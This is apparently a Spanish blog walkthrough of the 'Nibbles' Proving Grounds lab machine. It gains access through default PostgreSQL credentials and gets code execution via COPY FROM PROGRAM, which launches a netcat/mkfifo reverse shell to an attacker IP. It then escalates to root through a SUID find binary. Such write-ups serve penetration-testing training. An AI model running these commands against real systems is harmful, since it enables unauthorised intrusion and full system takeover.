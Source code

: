 ```yaml
---
layout: post
title: Nibbles (Linux - Intermediate) - Proving Grounds Practice
date: 11.06.2025
categories: [Linux, Proving Grounds, Proving Grounds Practice, Walkthrough, OSCP, Tutorial]
tag: [Proving Grounds Practice, Proving Grounds, Linux, Privilege Escalation, SUID, FIND, File Permissions, PostgreSQL, PostgreSQL RCE, Fuzzing, Database, Intermediate]
image:
  path: assets/img/post-img/PGimage-Title/PG-Title.svg
  alt: 
---
```


# Resolución paso a paso de la máquina Nibbles:

## ENUMERACIÓN

### NMAP

- Realizamos el primer escaneo para ver que puertos están abiertos:

```bash
nmap -p- --open -v -n 192.168.201.47 -oG allPorts
```

![image.png](assets/img/post-img/Nibbles/image.png)

- Enumeramos los **SERVICIOS ACTIVOS** en los **PUERTOS** que hemos descubierto:

```bash
nmap -sCV -p21,22,80,5437 --min-rate 5000 192.168.201.47 -oN targeted
```

![image.png](assets/img/post-img/Nibbles/image%201.png)

## EXPLOTACIÓN

- Después de enumerar varias cosas como las versiones de los servicios que corren en cada puerto, realizar fuerza bruta de directorios, intentar también fuerza bruta contra algunos de esos servicios… Descubrimos que podemos acceder a **POSTGRESQL** con credenciales por defecto y, desde dentro podemos operar para crearnos una nueva **TABLA** desde la que podremos lanzarnos una **REVERSE SHELL**:

### PostgreSQL

- Accedemos al servicio PostgreSQL por el puerto 5437 con las credenciales por defecto:

> 
**User:  postgres**  
**Password: postgres**
> 

```sql
psql -h 192.168.201.47 -p 5437 -U postgres
```

![image.png](assets/img/post-img/Nibbles/image%202.png)

- Una vez dentro de la **BBDD** enumeramos un poco pero vemos que solo están la **BBDD** por defecto, así que vamos a crear una nueva **TABLA** dentro de la propia base de datos **POSTGRES** para, desde ahí, lanzar una **REVERSE SHELL** hacia nuestra máquina atacante:

```sql
CREATE TABLE cmd_exec(cmd_output text);

COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>%261|nc 192.168.45.223 80 >/tmp/f';
```

![image.png](assets/img/post-img/Nibbles/image%203.png)

- Nos ponemos en escucha con NC y recibimos la conexión:

```bash
nc -lvnp 80
```

![image.png](assets/img/post-img/Nibbles/image%204.png)

## TRATAMIENTO DE LA TTY

- Realizamos el tratamiento de la **TTY** para poder trabajar más cómodos desde una **SHELL INTERACTIVA**:

```bash
script /dev/null -c bash

control+z

stty raw -echo; fg

reset xterm

export TERM=xterm-256color

export SHELL=bash

stty rows 52 columns 214 
```

- Una vez dentro de la máquina víctima nos dirigimos hacia el directorio principal del único usuario que vemos,  que se llama **WILSON** y, desde ahí,  ya podemos leer la primera **FLAG**:

![image.png](assets/img/post-img/Nibbles/image%205.png)

## ESCALADA DE PRIVILEGIOS

- Enumerando los permisos **SUID** descubrimos que el binario **FIND** tiene los permisos mal configurados y nos puede servir para escalar privilegios:

```bash
find / -perm -u=s -type f 2>/dev/null
```

![image.png](assets/img/post-img/Nibbles/image%206.png)

- Podemos aprovechar rápidamente esta vulnerabilidad ejecutando el programa ***find*** para buscar cualquier archivo conocido, como nuestra propia carpeta de escritorio. Una vez que se encuentra el archivo, **podemos indicarle *a find* que realice cualquier acción mediante el parámetro *-exec*** . En este caso, queremos ejecutar una shell en bash junto con el parámetro ***-p*** que impide que se restablezca el usuario efectivo.

```bash
find /home/wilson -exec "/usr/bin/bash" -p \;
```

![image.png](assets/img/post-img/Nibbles/image%207.png)

- Ahora ya podemos ir al directorio de **ROOT** y leer la **FLAG**:

![image.png](assets/img/post-img/Nibbles/image%208.png)